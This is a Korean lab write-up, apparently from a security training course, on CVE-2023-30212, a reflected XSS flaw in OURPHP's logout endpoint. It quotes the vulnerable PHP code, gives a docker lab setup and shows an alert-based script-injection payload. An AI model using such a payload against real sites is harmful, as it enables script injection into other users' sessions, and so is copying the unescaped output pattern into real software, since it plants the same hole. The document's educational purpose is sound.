 # CVE-2023-30212
> 화이트햇 스쿨 3기 (31반) 강민혁

github link : [https://github.com/meowyeok/kr-vulhub](https://github.com/meowyeok/kr-vulhub)

( 우선 [https://vulhub.org/](https://vulhub.org/) 에 없는 내용임을 밝힙니다. )

## **요약**

- OURPHP 웹 애플리케이션에서 발견된 크로스 사이트 스크립팅(XSS) 취약점입니다.
- “/client/manage/ourphp_out.php” 엔드포인트에서 사용자 입력값의 부적절한 검증으로 인해 악성 스크립트 삽입이 가능합니다.

## **PoC 구성**

- ourphp_out.php 파라미터에 XSS 페이로드를 삽입해 익스플로잇이 가능합니다.
- payload :  `/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script>`
    
    ```php
    if($_GET['ourphp_admin']=="logout"){
    	
    	plugsclass::logs('退出登录',$_SESSION['ourphp_adminname']);
    	unset($_SESSION['ourphp_adminname']);
    	unset($_SESSION['ourphp_outtime']);
    	unset($_SESSION['ourphp_out']);
    	echo"<script>location.href='../..".$_GET['out']."';</script>";
    	exit();
    }
    ```
    
    - 위의 out의 입력값을 검증없이 그대로 사용하여 XSS 취약점이 발생하였다

## **환경 구성 및 실행**

- docker compose up
- localhost:8080으로 접속
- OURPHP 초기 설정에 다음과 같이 입력
database connection address : db
username : root
password : root
database name : data
- payload인 [`localhost:8080/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script>`](http://localhost:8080/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script>) 입력

## **결과**

- alert를 통한 poc
    
    ![스크린샷 2025-04-24 180415.png](image.png)
    

## **정리**

- OURPHP의 발생한 XSS 취약점에 대해 알아봤다. 이를 위하여 docker를 통해 손쉽게 취약한 환경을 구성하여 학습할 수 있었고, 더 나아가 docker를 통한 구성 준비 실습을 해봄으로써 docker에 대해 한층 더 깊은 이해를 할 수 있었다.